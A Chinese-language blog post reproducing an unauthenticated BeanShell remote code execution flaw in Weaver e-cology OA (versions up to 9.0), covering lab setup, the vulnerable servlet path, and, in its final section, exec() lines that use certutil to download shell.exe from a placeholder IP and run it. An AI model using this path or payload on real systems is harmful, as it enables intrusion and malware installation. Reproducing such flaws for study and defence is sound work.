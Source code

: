 ```yaml
---
layout:     post
title:      【漏洞复现】泛微 e-cology OA 远程代码执行漏洞
subtitle:   远程代码执行漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 漏洞说明
2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁，泛微e-cology OA系统的J**A Beanshell接口可被未授权访问，攻击者调用该Beanshell接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行，漏洞等级严重。
## 0x01 影响版本
e-cology <=9.0
## 0x02 复现环境
Windows Server 2012
SQL Server 2012
Ecology8
## 0x03 漏洞复现
### 0、安装NetFx3
https://blog.csdn.net/F12138_/article/details/80220698
### 1、安装SQL Server 2012
如何安装：https://jingyan.baidu.com/article/6079ad0e39c32268ff86db93.html
### 2、安装泛微OA
相关的安装包和文档在这里：https://pan.baidu.com/s/1co--qbqBR_2-bqcRWtfOtg
### 3、漏洞利用
#### 命令执行
直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/

访问后直接在 Script 处输入Java代码点击 Evaluate 即可触发漏洞，并可以在Script Output处看到回显
![-w913](/img/16027836924596.jpg)
#### 下载木马并执行
exec("cmd /c certutil -urlcache -split -f http://xxx.xxx.xxx.xxx/shell.exe")
exec("cmd /c ./shell.exe")

